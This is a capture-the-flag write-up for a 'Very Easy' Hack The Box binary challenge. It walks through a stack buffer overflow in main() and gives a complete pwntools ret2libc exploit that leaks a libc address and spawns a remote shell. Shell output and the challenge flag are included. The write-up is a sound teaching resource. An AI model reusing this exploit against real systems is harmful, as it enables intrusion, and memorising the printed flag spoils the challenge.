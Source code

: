 # Library :book:

## Description: 

* Agents have the privilege to access our secret library and search whatever they need to for their missions and training. Pay a visit.

## Objective: 

* Take advantage of *Bof* and use `ret2libc` technique.

## Flag: :black_flag:
* HTB{l1br4r13s_4r3_r34lly_h3lpful}

### Difficulty:
* Very Easy

## Challenge:

The interface looks like this:

```console
$ ./library 
Salute Agent! Are you here to look at the book?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Take as much time as you want.
Segmentation fault (core dumped)
```

As we can see, there is a `SegFault` after some "A"s. That means there is a possible *BufferOverflow*.

We run a `checksec` to verify this:
```console
$ checksec ./library
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
**Canary** is disabled and so is **PIE**. This means we probably have code redirect and calls to other functions of the program. 

Let's open a disassembler to analyze the program.

### Disassembly :pick:

We start from `main()`:

```c
undefined8 main(void)

{
  undefined local_28 [32];
  
  setup();
  printf("Salute Agent! Are you here to look at the book?\n> ");
  read(0,local_28,0x60);
  puts("Take as much time as you want.");
  return 0;
}
```

We see that there is a *BufferOverflow* because `local_28` is 32 bytes long and `read()` reads up to 0x60 bytes.

What we need to do is:

* Overflow the buffer with junk
* Leak a `libc address` e.g. `puts()`.
* Call `main()` again to execute another Bof.
* Call `system("/bin/sh")`.

In order to leak the address we need to craft a payload like this:

```python
payload = junk + pop_rdi + puts_got + puts_plt + main_addr
```

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *

ip = '172.17.0.1' # change this
port = 1337 # change this
fname = './library' # change this

LOCAL = False

if LOCAL:
	r = process(fname)
	_libc = '/lib/x86_64-linux-gnu/libc.so.6'
else:
	r = remote(ip, port)
	_libc = './libc.so.6' # change this

libc = ELF(_libc)
e = ELF(fname)
rop = ROP(e)

rl = lambda : r.recvline()
ru = lambda x : r.recvuntil(x)
inter = lambda : r.interactive()
sla = lambda x,y : r.sendlineafter(x,y)

def libc_leak(junk):
	payload = junk
	payload += p64(rop.find_gadget(['pop rdi'])[0])
	payload += p64(e.got['puts'])
	payload += p64(e.plt['puts'])
	payload += p64(e.symbols['main'])
	sla('>', payload)
	rl()
	return u64(rl()[:-1].ljust(8, b'\x00'))

def get_shell(junk, base):
	og = [0x4f3d5, 0x4f432, 0x10a41c]
	payload = junk
	payload += p64(base + og[0])
	sla('>', payload)
	inter() 

def pwn():
	junk = b'A'*40
	leaked = libc_leak(junk)
	base = leaked - libc.symbols['puts']
	log.info('Leaked:    0x{:x}'.format(leaked))
	log.info('Libc base: 0x{:x}'.format(base))
	get_shell(junk, base)

if __name__ == '__main__':
	pwn()
```

### PoC: :checkered_flag:

```console
$ ./solver.py 
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] 'challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] 'challenge/library'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './library'
[*] Leaked:    0x7fd1e14cfaa0
[*] Libc base: 0x7fd1e144f000
[*] Switching to interactive mode
 Take as much time as you want.
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
HTB{l1br4r13s_4r3_r34lly_h3lpful}
```
